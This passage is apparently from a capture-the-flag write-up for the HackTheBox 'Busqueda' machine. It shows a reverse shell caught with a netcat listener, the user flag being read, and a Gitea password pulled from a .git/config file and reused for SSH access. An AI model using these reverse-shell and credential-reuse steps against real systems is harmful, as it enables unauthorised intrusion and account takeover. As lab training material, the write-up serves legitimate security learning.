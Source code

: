 ```bash
/exploit.sh <site_name> <your_ip> <port>
```
Run that with `NetCat`and you will get the connection:
```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.208] 46656
bash: cannot set terminal process group (1648): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ ls
ls
app.py
templates
```
We are in.
The user flag is located in `/home/svc/user.txt:
```bash
$ cat user.txt
cat user.txt
e059d11d9d87ab4920a2b94b7f8bbc80
```
***
User Flag --- e059d11d9d87ab4920a2b94b7f8bbc80
***
Check out the other directories:
```bash
svc@busqueda:/var/www/app$ cd .git
cd .git
svc@busqueda:/var/www/app/.git$ ls
ls
branches
COMMIT_EDITMSG
config
description
HEAD
hooks
index
info
logs
objects
refs
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```
there is Username ---> `cody`      Password ---> jh1usoih2bkjaspwe92
And also there is subdomain of `searcher.htb` ----> `gitea.searcher.htb`, copy that and add to `/etc/hosts`:
```
10.10.11.208 gitea.searcher.htb
```
Go to that site and login as `cody`.
There is nothing special. `TBH i havn't explored it`
Connect to `ssh`with name of `svc`and password of `jh1usoih2bkjaspwe92`.